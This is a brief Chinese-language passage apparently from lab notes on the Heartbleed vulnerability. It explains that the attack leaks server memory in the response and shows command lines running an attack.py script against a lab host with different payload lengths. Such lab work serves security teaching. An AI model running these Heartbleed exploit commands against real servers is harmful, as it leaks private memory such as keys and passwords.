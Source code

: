 攻击结果：来自服务器内存的一些数据也被复制到响应数据包中，这将被发送出去

![image-20220422171730929](Heartbleed/image-20220422171730929.png)

> 我们的攻击代码允许您使用不同的有效载荷长度值。 默认情况下，该值设置为相当大的（0x4000），但可以使用以下示例中所示的命令选项“-l”（字母ell）或“--length”来减少大小
>
> ```bash
> $./attack.py  www.heartbleedlabelgg.com  -l  0x015B
> $./attack.py  www.heartbleedlabelgg.com  --length  83
> ```

```
./attack.py  www.heartbleedlabelgg.com  -l  100
```

![image-20220422181152930](Heartbleed/image-20220422181152930.png)
